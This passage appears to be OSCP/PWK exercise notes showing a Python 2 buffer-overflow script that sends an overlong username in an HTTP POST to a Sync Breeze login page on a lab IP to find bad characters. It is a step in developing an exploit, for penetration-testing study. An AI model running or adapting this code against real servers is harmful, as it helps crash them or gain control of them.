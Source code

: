 ### Here is the script without any bad chars
The bad chars are: **x00\x0a\x0d\x25\x26\x2b\x3d**
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 7_check_bad_chars.py 
#!/usr/bin/python
import socket
import sys

badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x27\x28\x29\x2a\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "B" * 4
    offset = "C" * 4
    
    inputBuffer = filler + eip + offset + badchars
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
```